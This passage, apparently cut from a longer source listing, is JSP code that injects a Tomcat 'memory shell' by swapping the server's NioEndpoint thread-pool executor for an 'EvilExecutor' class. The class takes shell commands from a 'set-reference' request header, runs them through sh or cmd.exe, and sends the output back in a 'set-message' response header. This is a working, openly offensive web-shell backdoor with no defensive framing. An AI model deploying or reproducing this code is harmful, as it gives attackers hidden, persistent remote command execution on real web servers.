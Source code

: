 ```jsp
                    String cmd = req.substring(req.indexOf("set-reference") + "set-reference".length() + 1, req.indexOf("\r", req.indexOf("set-reference")) - 1);
                    return cmd;
                } catch (Exception e) {
                    e.printStackTrace();
                return null;
            }
        }

        public void getResponse(byte[] res) {
            try {
                Object nioEndpoint = getNioEndpoint();
                    ArrayList processors = (ArrayList) getField(getField(getField(nioEndpoint, "handler"), "global"), "processors");
                for (Object processor: processors) {
                    RequestInfo requestInfo = (RequestInfo) processor;
                    Response response = (Response) getField(getField(requestInfo, "req"), "response");
                    response.addHeader("set-message", new String(res, StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public void execute(Runnable command) {
            String cmd = getRequest();
            try {
                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    getResponse(output.getBytes());
                }
            } catch (Exception
e) {
                e.printStackTrace();
            }
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getNioEndpoint();
    ThreadPoolExecutor executor = (ThreadPoolExecutor) nioEndpoint.getExecutor();
    nioEndpoint.setExecutor(new EvilExecutor(executor.getCorePoolSize(), executor.getMaximumPoolSize(),
            executor.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, executor.getQueue(),
            executor.getThreadFactory()));
    response.getWriter().write("Executor Inject Successfully...");
%>
```
